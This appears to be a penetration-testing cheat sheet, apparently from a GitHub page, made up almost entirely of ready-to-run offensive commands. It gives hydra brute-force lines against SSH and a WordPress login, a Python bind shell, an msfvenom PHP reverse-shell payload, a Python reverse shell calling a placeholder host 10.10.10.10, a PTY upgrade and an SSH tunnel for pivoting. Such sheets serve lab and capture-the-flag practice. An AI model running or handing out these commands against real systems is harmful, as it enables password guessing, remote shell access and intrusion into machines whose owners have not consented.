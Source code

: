 
## Password Guessing
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 -t4 ssh

hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

## Bind Shells
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Reverse Shells
```bash
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=443 -f raw -o shell.php

export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

## Upgrade to a PTY Shell
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
```

## Pivoting
```bash
ssh -R 8080:localhost:8080 victor@home.edu
```
